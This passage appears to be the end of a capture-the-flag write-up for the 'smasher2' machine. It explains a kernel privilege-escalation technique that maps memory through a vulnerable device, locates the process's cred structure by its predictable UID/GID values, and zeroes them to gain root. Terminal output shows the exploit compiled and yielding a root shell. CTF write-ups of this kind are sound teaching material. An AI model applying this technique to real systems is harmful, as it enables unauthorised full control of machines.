	kernel_cap_t	cap_effective;	    /* caps we can actually use */
	kernel_cap_t	cap_bset;	        /* capability bounding set */
	kernel_cap_t	cap_ambient;	    /* Ambient capability set */
    /* [...] */
} __randomize_layout;
```

Since we are in control of our process, we can predict the value for all the members
from *uid* to *fsgid*. We just need to write code to search for eight consecutive
integers that match the expected values for those members. Once we find our ```cred```
structure we can change the value of our *UIDs* and *GUIDs* to zero and enable all
capabilities to have full **root** privileges.

```
dzonerzy@smasher2:/dev/shm$ gcc -o exploit exploit.c
dzonerzy@smasher2:/dev/shm$ ./exploit
[+] Device opened (fd: 3)
[+] mmap OK: 0x43434000
[+] Looking for our cred structure...
[+] Potential cred structure found! addr: 0x772e6184
[+] Potential cred structure found! addr: 0x772e6304
[+] Potential cred structure found! addr: 0x772e63c4
[+] Potential cred structure found! addr: 0x772e6544
[+] Potential cred structure found! addr: 0x772e6604
[+] Potential cred structure found! addr: 0x772e6a84
[+] Potential cred structure found! addr: 0x772e7744
[+] Potential cred structure found! addr: 0x772e78c4
[+] Potential cred structure found! addr: 0xb3d63144
[+] WE ARE ROOT!
# id
uid=0(root) gid=0(root) groups=0(root),4(adm),24(cdrom),30(dip),46(plugdev),111(lpadmin),112(sambashare),1000(dzonerzy)
```

The full exploit is available in [**exploit.c**](resources/exploit/exploit.c).

# References

